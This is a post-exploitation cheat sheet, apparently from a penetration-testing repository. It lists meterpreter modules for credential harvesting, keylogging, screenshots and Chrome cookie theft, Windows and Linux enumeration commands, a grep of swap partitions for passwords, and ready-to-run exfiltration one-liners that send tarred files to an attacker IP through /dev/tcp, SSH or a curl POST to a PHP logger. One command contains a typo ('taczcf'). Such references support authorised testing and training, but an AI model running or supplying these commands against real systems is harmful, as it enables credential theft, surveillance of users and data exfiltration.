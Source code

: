 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup <group-name>`
* `net share`
</br>__Services__</br>
* `tasklist /svc`
</br>__Privileges__</br>
* `whoami /priv`
* `whoami /groups`
* `whoami /all`
</br>__Powershell__</br>
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

## Linux
* `cat /etc/passwd`
* Pilfering credentials from sqp memory
   * `swapon -s` or `cat /proc/swaps` -get swap partition
   * `strings </dev/sda5> | grep "password"` - search "password" text in the swap partition
* `./swap_digger.sh` - https://github.com/sevagas/swap_digger
 

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`

* `meterpreter> run post/multi/gather/*` - double tab to see all modules
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
**Windows**
* `meterpreter> run winenum`
* `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
* `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
* `meterpreter> run post/windows/gather/credentials/credential_collector`
**Linux**
* msf> `use post/linux/gather/enum_configs`
* msf> `use post/linux/gather/enum_system`
* msf> `use post/linux/*` - double tab to see options

**General Tactics**
* dump browser cache
* dump browser bookmarks
* setup sniffers on victim

## Other tools
* SessionGopher - dump local credentials (Windows)

# Data exfiltration
* TCP socket with EBCDIC and Base64
   * attacker system: `nc -lvp 80 > datafolder.tmp`
   * target system: `taczcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker-IP>/80`
   * attacker machine: `dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar`
   * attacker machine: `tar xf datafolder.tar`
* SSH
   * target system: `tar zcf - /tmp/datafolder | ssh <user>@<attacker-IP> "cd /tmp; tar zxpf -"`
* POST request over HTTPS
   * attacker system: create php file (contact.php) to log data: `<? php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>`
   * attacker system: `php -S <IP>:8000`
   * target system: `curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<attacker-IP>/contact.php`
   * target system: `cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar`

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers


